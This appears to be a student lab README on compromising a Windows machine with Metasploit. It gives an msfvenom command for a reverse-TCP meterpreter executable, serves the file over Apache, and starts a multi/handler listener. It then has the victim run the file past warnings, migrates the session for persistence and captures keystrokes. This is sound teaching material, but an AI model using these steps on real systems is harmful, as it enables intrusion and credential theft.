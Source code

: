 # Compromising-windows-using-Metasploit
Compromising windows using Metasploit
# Metasploit
Compromising windows using Metasploit

# AIM:

To Compromise windows using Metasploit .

## DESIGN STEPS:

### Step 1:

Install kali linux either in partition or virtual box or in live mode

### Step 2:

Investigate on the various categories of tools as follows:

### Step 3:

Open terminal and try execute some kali linux commands

## EXECUTION STEPS AND ITS OUTPUT:
![Screenshot 2024-04-30 183622](https://github.com/Gajalakshmivelmurugan/Compromising-windows-using-Metasploit/assets/144871940/39502aad-dca6-4248-a316-e42b1db6dc9b)
Create a malicious executable file fun.exe using msenom command msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.2 -f exe > fun.exe
## OUTPUT:
![324934867-981dae79-a184-4fe7-97fb-f06c1390355c](https://github.com/Gajalakshmivelmurugan/Compromising-windows-using-Metasploit/assets/144871940/e9629c1f-043a-4c19-abce-46776a4c9284)
copy the fun.exe into the apache /var/www/html folder
![324935670-dd0bc2d7-d144-42a9-a9a4-0fb8dc491ae1](https://github.com/Gajalakshmivelmurugan/Compromising-windows-using-Metasploit/assets/144871940/bc1cf342-525f-4be8-9658-2b8b07ee56c2)

Start apache server sudo systemctl apache2 start
![324936143-9eb99679-ea0d-4ea0-97c0-f75407e31d23](https://github.com/Gajalakshmivelmurugan/Compromising-windows-using-Metasploit/assets/144871940/f5095d00-4e6a-4091-a777-f373d54d3e28)
Check the status of apache2
![324937385-27b142a8-4e44-447e-bed2-77e48cf0babb](https://github.com/Gajalakshmivelmurugan/Compromising-windows-using-Metasploit/assets/144871940/b3965983-7c91-4e02-8ac3-8dab2eaab369)

Invoke msfconsole:
## OUTPUT:
Type help or a question mark "?" to see the list of all available commands you can use inside msfconsole.

Starting a command and control Server use multi/handler set PAYLOAD windows/meterpreter/reverse_tcp set LHOST 0.0.0.0 exploit
![324938559-cac71c8f-d77f-45fa-bb28-ee8ceaa8cf94](https://github.com/Gajalakshmivelmurugan/Compromising-windows-using-Metasploit/assets/144871940/1058755e-09e4-4da5-ad0e-d5256c905b9b)
On the target Windows machine, open a Web browser and open this URL, replacing the IP address with the IP address of your Kali machine: http://192.168.1.2/fun.exe The file "fun.exe" downloads.
![324939056-ecd3b7e2-63d0-4e99-990d-95fbd3654662](https://github.com/Gajalakshmivelmurugan/Compromising-windows-using-Metasploit/assets/144871940/5fbd184d-0989-4ca5-bd7a-c01fca7f7862)
Bypass any warning boxes, double-click the file, and allow it to run.

On kali give the command exploit
![324939547-c4b4e30a-88d4-4397-b4aa-e9a3e2136f0f](https://github.com/Gajalakshmivelmurugan/Compromising-windows-using-Metasploit/assets/144871940/4803c901-a47b-4642-959a-ce80334b1bcb)
To see a list of processes, at the meterpreter > prompt, execute this command: ps ⇒ can see the fun.exe process running with pid 1156

The Metasploit shell is running inside the "fun.exe" process. If the user closes that process, or logs off, the connection will be lost. To become more persistent, we'll migrate to a process that will last longer. Let's migrate to the winlogon process. At the meterpreter > prompt, execute this command:

migrate -N explorer.exe at meterpreter > prompt, execute this command: netstat A list of network connections appears, including one to a remote port of 4444, as highlighted in the image below. Notice the "PID/Program name" value for this connection, which is redacted

![324940098-a9ce9410-a8f5-4a9d-974c-7d482492914f](https://github.com/Gajalakshmivelmurugan/Compromising-windows-using-Metasploit/assets/144871940/ef266722-426e-4427-8150-3c079fd290ce)
Post Exploitation The target is now owned. Following are meterpreter commands for key capturing in the target machine keyscan_start Begins capturing keys typed in the target. On the Windows target, open Notepad and type in some text, such as your name.
![324940620-90eea5e9-aee0-4238-bc08-796d0a407cdc](https://github.com/Gajalakshmivelmurugan/Compromising-windows-using-Metasploit/assets/144871940/d2ba1f44-93cc-412f-bf51-a1b658fcbad7)
keyscan_dump Shows the keystrokes captured so far
![324941533-a9863e2c-4d9a-4d10-b95a-ae69b44c3386](https://github.com/Gajalakshmivelmurugan/Compromising-windows-using-Metasploit/assets/144871940/ba7e583d-f44e-4898-91f5-35cf1eb569ca)

## RESULT:
The Metasploit framework is  used to compromise windows and is examined successfully.

